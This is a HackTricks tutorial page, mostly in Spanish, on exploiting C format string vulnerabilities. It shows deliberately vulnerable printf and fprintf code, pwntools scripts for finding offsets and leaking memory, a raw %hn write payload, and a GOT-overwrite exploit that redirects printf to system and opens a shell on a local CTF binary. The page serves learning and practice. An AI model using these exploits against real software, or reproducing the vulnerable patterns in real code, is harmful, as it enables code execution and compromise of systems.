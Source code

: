 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}


## Basic Information

En C **`printf`** es una función que se puede usar para **imprimir** alguna cadena. El **primer parámetro** que esta función espera es el **texto en bruto con los formateadores**. Los **siguientes parámetros** esperados son los **valores** para **sustituir** los **formateadores** del texto en bruto.

Otras funciones vulnerables son **`sprintf()`** y **`fprintf()`**.

La vulnerabilidad aparece cuando un **texto de atacante se usa como el primer argumento** para esta función. El atacante podrá crear una **entrada especial abusando** de las capacidades de la **cadena de formato printf** para leer y **escribir cualquier dato en cualquier dirección (legible/escribible)**. Siendo capaz de esta manera de **ejecutar código arbitrario**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Ejemplos:**

* Ejemplo vulnerable:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normal:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argumentos faltantes:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerable:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accediendo a Punteros**

El formato **`%<n>$x`**, donde `n` es un número, permite indicar a printf que seleccione el n-ésimo parámetro (de la pila). Así que si quieres leer el 4º parámetro de la pila usando printf, podrías hacer:
```c
printf("%x %x %x %x")
```
y leerías del primer al cuarto parámetro.

O podrías hacer:
```c
printf("%4$x")
```
y leer directamente el cuarto.

Nota que el atacante controla el parámetro de `printf`, **lo que básicamente significa que** su entrada estará en la pila cuando se llame a `printf`, lo que significa que podría escribir direcciones de memoria específicas en la pila.

{% hint style="danger" %}
Un atacante que controle esta entrada, podrá **agregar direcciones arbitrarias en la pila y hacer que `printf` las acceda**. En la siguiente sección se explicará cómo usar este comportamiento.
{% endhint %}

## **Lectura Arbitraria**

Es posible usar el formateador **`%n$s`** para hacer que **`printf`** obtenga la **dirección** situada en la **n posición**, siguiéndola y **imprimirla como si fuera una cadena** (imprimir hasta que se encuentre un 0x00). Así que si la dirección base del binario es **`0x8048000`**, y sabemos que la entrada del usuario comienza en la 4ta posición en la pila, es posible imprimir el inicio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Tenga en cuenta que no puede poner la dirección 0x8048000 al principio de la entrada porque la cadena se cortará en 0x00 al final de esa dirección.
{% endhint %}

### Encontrar el desplazamiento

Para encontrar el desplazamiento a su entrada, podría enviar 4 u 8 bytes (`0x41414141`) seguidos de **`%1$x`** y **aumentar** el valor hasta recuperar las `A's`.

<details>

<summary>Fuerza bruta printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Qué tan útil

Las lecturas arbitrarias pueden ser útiles para:

* **Volcar** el **binario** de la memoria
* **Acceder a partes específicas de la memoria donde se almacena información** **sensible** (como canarios, claves de cifrado o contraseñas personalizadas como en este [**desafío CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Escritura Arbitraria**

El formateador **`%<num>$n`** **escribe** el **número de bytes escritos** en la **dirección indicada** en el parámetro \<num> en la pila. Si un atacante puede escribir tantos caracteres como desee con printf, podrá hacer que **`%<num>$n`** escriba un número arbitrario en una dirección arbitraria.

Afortunadamente, para escribir el número 9999, no es necesario agregar 9999 "A"s a la entrada, para hacerlo es posible usar el formateador **`%.<num-write>%<num>$n`** para escribir el número **`<num-write>`** en la **dirección apuntada por la posición `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Sin embargo, ten en cuenta que generalmente para escribir una dirección como `0x08049724` (que es un número ENORME para escribir de una vez), **se usa `$hn`** en lugar de `$n`. Esto permite **escribir solo 2 Bytes**. Por lo tanto, esta operación se realiza dos veces, una para los 2B más altos de la dirección y otra vez para los más bajos.

Por lo tanto, esta vulnerabilidad permite **escribir cualquier cosa en cualquier dirección (escritura arbitraria).**

En este ejemplo, el objetivo será **sobrescribir** la **dirección** de una **función** en la tabla **GOT** que se llamará más tarde. Aunque esto podría abusar de otras técnicas de escritura arbitraria a exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Vamos a **sobrescribir** una **función** que **recibe** sus **argumentos** del **usuario** y **apuntarla** a la **función** **`system`**.\
Como se mencionó, para escribir la dirección, generalmente se necesitan 2 pasos: Primero **escribes 2Bytes** de la dirección y luego los otros 2. Para hacerlo se usa **`$hn`**.

* **HOB** se llama a los 2 bytes más altos de la dirección
* **LOB** se llama a los 2 bytes más bajos de la dirección

Luego, debido a cómo funciona la cadena de formato, necesitas **escribir primero el más pequeño** de \[HOB, LOB] y luego el otro.

Si HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Si HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Plantilla de Pwntools

Puedes encontrar una **plantilla** para preparar un exploit para este tipo de vulnerabilidad en:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O este ejemplo básico de [**aquí**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Cadenas de Formato a BOF

Es posible abusar de las acciones de escritura de una vulnerabilidad de cadena de formato para **escribir en direcciones de la pila** y explotar un tipo de vulnerabilidad de **desbordamiento de búfer**.

## Otros Ejemplos y Referencias

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, sin relro, sin canario, nx, sin pie, uso básico de cadenas de formato para filtrar la bandera de la pila (sin necesidad de alterar el flujo de ejecución)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, sin canario, nx, sin pie, cadena de formato para sobrescribir la dirección `fflush` con la función win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, sin canario, nx, sin pie, cadena de formato para escribir una dirección dentro de main en `.fini_array` (para que el flujo vuelva a repetirse una vez más) y escribir la dirección a `system` en la tabla GOT apuntando a `strlen`. Cuando el flujo regrese a main, `strlen` se ejecutará con la entrada del usuario y apuntando a `system`, ejecutará los comandos pasados.

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

